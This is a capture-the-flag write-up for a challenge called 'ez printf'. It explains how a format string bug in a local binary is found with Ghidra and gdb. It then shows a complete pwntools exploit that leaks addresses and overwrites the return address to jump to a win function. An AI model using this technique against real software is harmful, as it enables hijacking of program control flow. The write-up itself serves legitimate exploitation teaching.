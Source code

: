 # ez printf
Writeup by: Ethan Andrews

## Description
print the f's

## Writeup
### Initial Looks
Running the program, we are greeted with the message "Haha my buffer cant be overflowed and there is pie, ill even let you read and print twice".

![image](https://github.com/user-attachments/assets/bb832b7d-d2ca-4c3f-b2dc-7b2ac238362e)

Then we are given two user inputs.

### Code Analysis
By analyzing in Ghidra, we can see that it just feeds the user input into printf.

![image](https://github.com/user-attachments/assets/91336488-bff8-4969-9116-725a2f64e729)

This is a clear format string vulnerability.

Additionally, we see a win function that prints the flag.

![image](https://github.com/user-attachments/assets/4a46a94c-b3eb-447b-b13d-08c75f04fe34)

### Format String Vulnerability
We will first send several `%p` to determine what the offsets are.

We can see that a stack address is at the first offset:

![image](https://github.com/user-attachments/assets/0cee851a-638d-4ea4-a11b-112149fb6d3f)

The buffer is at the 6th offset:

![image](https://github.com/user-attachments/assets/c368f84b-3919-45b5-98bc-33f26c05037f)

And the main address is at the 27th offset:

![image](https://github.com/user-attachments/assets/adf461a3-d8e2-46f4-bb55-f8e26d950646)

### Exploit Construction
We will use pwntools for our exploit.

```python3
from pwn import *

exe = context.binary = ELF("./vuln")
p = process("./vuln")
```

We will first receive the address leaks based on the offsets found earlier:

```python
p.recvuntil(b"twice\n")
p.send(b"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p")
values = p.recv().split()

buffer_begin = 6 # Offset of the buffer
main_address = int(values[-1].decode(), 16)
stack_address = int(values[0].decode(), 16)
```

The leaked main address is the direct main address, this means we can set the address of the context.

```python3
exe.address = main_address - exe.symbols['main']
```

Using gdb we can see that the leaked stack address appears to be `0x88` away from the return address.

```python3
return_address = stack_address + 0x88
```

Now we can construct the format string payload using pwntools' built in function
```python3
payload = fmtstr_payload(buffer_begin, writes={return_address: (exe.symbols['win'])}, write_size='short') + b"\n"
p.send(payload)

p.interactive()
```

When executing this payload, we can see that it succesfully enters the win function, but doesn't actually print out
the flag and segfaults.

![image](https://github.com/user-attachments/assets/3170fb6a-2eb3-4bb2-aa47-01c494f662de)

### GDB Analysis
To figure out what's going on, we can use gdb to see the exact instruction it segfaults.

![image](https://github.com/user-attachments/assets/857d23e5-8825-478f-afcc-d2287a3aaebd)

It appears that it segfaults on `movaps XMMWORD PTR [rsp+0x50], xmm0`. After doing some research,
we find that this instruction requires that the stack pointer be 16 byte aligned. However, we can see that
the `RSP` value is not 16 byte aligned.

![image](https://github.com/user-attachments/assets/f92970f6-7c44-42e1-ac43-03be5bc9b78d)

We can see that when we jump to the win function, it performs a `push rbp` function that causes the misalignment.
We can simply skip to the next instruction to bypass this and maintain alignment.

![image](https://github.com/user-attachments/assets/5682502b-e137-4bba-950b-c71523c3b67e)

The next instruction is one byte away, so we will simply add 1 to the win function.

```python3
payload = fmtstr_payload(buffer_begin, writes={return_address: (exe.symbols['win'] + 1)}, write_size='short') + b"\n"
```

This gives us the final working exploit:

```python3
from pwn import *

exe = context.binary = ELF("./vuln")
p = process("./vuln")

p.recvuntil(b"twice\n")
p.send(b"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p")
values = p.recv().split()

buffer_begin = 6 # Offset of the buffer
main_address = int(values[-1].decode(), 16)
stack_address = int(values[0].decode(), 16)

exe.address = main_address - exe.symbols['main']
return_address = stack_address + 0x88

payload = fmtstr_payload(buffer_begin, writes={return_address: (exe.symbols['win'] + 1)}, write_size='short') + b"\n"
p.send(payload)

p.interactive()
```

Running this will print the flag.

## Important Concepts
- Format String vulnerabilities


